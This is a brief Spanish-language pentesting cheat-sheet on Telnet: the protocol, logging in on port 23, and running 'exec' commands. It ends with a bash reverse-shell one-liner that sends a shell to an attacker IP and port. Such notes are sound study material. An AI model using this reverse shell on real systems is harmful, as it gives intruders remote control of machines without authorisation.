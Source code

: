 # Telnet 

Tags: #Telnet #Puerto #Comandos 

Telnet es el nombre de un protocolo de red que nos permite acceder a otra máquina para manejarla remotamente como si estuviéramos sentados delante de ella. También es el nombre del programa informático que implementa el cliente.

## Comandos

```bash 
❯ telnet ❮IP❯ 23             # Iniciar sesion en Telnet en su puerto por default 23

	❯ ?                     # Mirar el panel de ayuda, en ocasiones se encuentra ‘exec system commands’ 
     ❯ exec id               # Muestra el id
     ❯ exec ifconfig         # Muestra las interfaces y su ip address
     
     ❯ exec bash -c “bash -i >& /dev/tcp/10.10.14.2/443 0>&1”     # Si se puede ejecutar comandos, se puede hacer una ReverShell de esta manera colocando la IP del atacante y su puerto
```